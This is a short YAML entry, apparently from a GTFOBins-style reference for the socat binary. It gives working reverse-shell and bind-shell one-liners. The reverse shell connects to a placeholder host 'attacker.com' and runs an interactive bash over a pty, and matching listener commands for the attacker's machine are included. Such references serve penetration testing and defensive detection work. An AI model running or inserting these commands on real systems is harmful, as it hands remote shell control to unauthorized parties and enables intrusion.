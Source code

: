 ```yaml
---
functions:
  reverse-shell:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:"bash -li",pty,stderr,setsid,sigint,sane
  bind-shell:
    - description: Run <code>socat FILE:`tty`,raw,echo=0 TCP:target.com:12345</code> on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
---
```

